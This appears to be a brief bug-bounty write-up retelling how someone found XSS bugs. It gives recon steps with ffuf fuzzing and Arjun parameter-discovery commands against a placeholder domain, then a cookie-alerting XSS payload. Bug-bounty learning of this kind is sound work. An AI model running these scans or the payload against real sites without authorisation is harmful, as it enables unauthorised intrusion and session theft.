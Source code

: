 # How reading robots.txt file got me 4 XSS reports? 💡💡

### 1. Start doing Google Dorking [Found Nothing]

### 2. Searched for the domain name at Wayback archive [Found Nothing]

### 3. Opened robots.txt file to see what the developer hide from us

### 4. Open source code > Search for any secrets or endpoints > [Found Nothing]

### 5. Open JS files > Use any tool like gospider to extract secrets and Endpoints > [Found Nothing]

### 6. Let’s FUZZ
`ffuf -u https://sub.domain.com/admin/FUZZ -w aspfiles.txt -mc 200`

### 7. Found Endpoint:
`https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### 8. Use Arjun to find hidden parameter
`arjun -u https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### 9. Payload: 
`</script><img src=x onerror=alert(document.cookie)>`


## Credit
Based on [Ahmed Qaramany](https://c0nqr0r.medium.com/reading-robots-txt-got-me-4-xss-reports-9fd2234c635f)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
